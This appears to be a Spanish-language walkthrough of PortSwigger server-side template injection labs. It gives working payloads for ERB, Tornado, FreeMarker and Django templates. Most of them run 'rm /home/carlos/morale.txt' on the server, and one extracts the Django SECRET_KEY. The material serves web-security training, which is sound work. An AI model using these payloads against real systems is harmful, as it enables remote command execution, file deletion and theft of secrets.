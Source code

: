 ```yaml
---
title: SSTI | PortSwigger
---
```

Labs de Server Side Template Injection hechos y explicados.

### Laboratorio: Inyección básica de plantillas en el servidor

```
# Investigando la pagina, vemos que algunos productos presentan el mensaje de que no estan disponible, pero en el formato: 
message=Unfortunately this product is out of stock
# entonces si ponemos message = <%= 7*7 %> Vemos por pantalla nos saca 49.
# Por lo tnato, podemos ejecutar comandos usando la template de ruby:
<%= system("rm /home/carlos/morale.txt") %>
# Y ya podremos eliminar el archivo morale.txt
```

### Laboratorio: Inyección básica de plantillas del lado del servidor (contexto de código)

```
# Probando, vemos que la parte de blog-post-author-display en el burp es vulnerable a SSTI.
# Esto se debe a que las expresiones en tornado están entre {{}}. Por ende, podemos escapar los brackets para ejecutar el comando que queramos. 
# Para ello, yo he introducido el siguiente payload:
user.name}}{% import os %}{{ os.popen("rm /home/carlos/morale.txt").read() }}
```

### Laboratorio Inyección de plantillas del lado del servidor mediante documentación

```
# Probando SSTI, vemos que nos coge ${7*7}, que es una SSTI de Java. No obstante, si probamos a inyectar un comando, nos tira un error en el que podemos ver claramente como pone FreeMarker, así que investigando vemos que para ejecutar comandos dentro de este template tenemos que usar:

<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("rm /home/carlos/morale.txt")}
```

### Laboratorio Inyección de plantillas del lado del servidor en un lenguaje desconocido con un exploit documentado

```
# Probando SSTI, vemos como estamos ante un Handlebars template de Java, el cual tiene el siguiente payload:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```

### Laboratorio Inyección de plantillas en el servidor con revelación de información mediante objetos suministrados por el usuario

```
# Probando payloads, vemos que estamos ante django. Por lo tanto, vamos a meterle este payload para sacar la secret key:
{{settings.SECRET_KEY}}
```